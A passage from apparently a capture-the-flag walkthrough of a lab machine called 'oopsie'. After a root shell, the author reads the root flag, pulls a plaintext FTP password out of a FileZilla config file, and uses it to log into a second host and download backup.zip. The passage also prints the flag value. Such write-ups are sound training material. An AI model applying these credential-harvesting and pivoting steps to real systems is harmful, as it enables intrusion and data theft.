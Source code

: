 	root@oopsie:/tmp/twof#
	```
	![[Pasted image 20210817122921.png]]
	- Obtained root shell through bugtracker program
10. Found root flag at /root/root.txt
	```
	root@oopsie:/root# cd /root
	root@oopsie:/root# /bin/cat root.txt
	af13b0bee69f8a877c3faf667f7beacf
	```
	![[Pasted image 20210817123228.png]]
11. Found filezilla credentials for 10.10.10.46 at /root/.config/filezilla
	```
	root@oopsie:/root/.config/filezilla# cd /root/.config/filezilla/
	root@oopsie:/root/.config/filezilla# /bin/cat filezilla.xml
	<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
	<FileZilla3>
		<RecentServers>
			<Server>
				<Host>10.10.10.46</Host>
				<Port>21</Port>
				<Protocol>0</Protocol>
				<Type>0</Type>
				<User>ftpuser</User>
				<Pass>mc@F1l3ZilL4</Pass>
				<Logontype>1</Logontype>
				<TimezoneOffset>0</TimezoneOffset>
				<PasvMode>MODE_DEFAULT</PasvMode>
				<MaximumMultipleConnections>0</MaximumMultipleConnections>
				<EncodingType>Auto</EncodingType>
				<BypassProxy>0</BypassProxy>
			</Server>
		</RecentServers>
	</FileZilla3>
	```
	![[Pasted image 20210817124001.png]]
	- account for filezilla server at 10.10.10.46
		- user: `ftpuser`
		- pass: `mc@F1l3ZilL4`
		- host: `10.10.10.46`
12. Found backup.zip on ftp server at 10.10.10.46
	```
	ftp> open 10.10.10.46
	Connected to 10.10.10.46.
	220 (vsFTPd 3.0.3)
	Name (10.10.10.46:robert): ftpuser
	331 Please specify the password.
	Password:
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> ls
	200 PORT command successful. Consider using PASV.
	150 Here comes the directory listing.
	-rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
	226 Directory send OK.
	ftp> pwd
	257 "/" is the current directory
	ftp> get backup.zip
	local: backup.zip remote: backup.zip
	200 PORT command successful. Consider using PASV.
	150 Opening BINARY mode data connection for backup.zip (2533 bytes).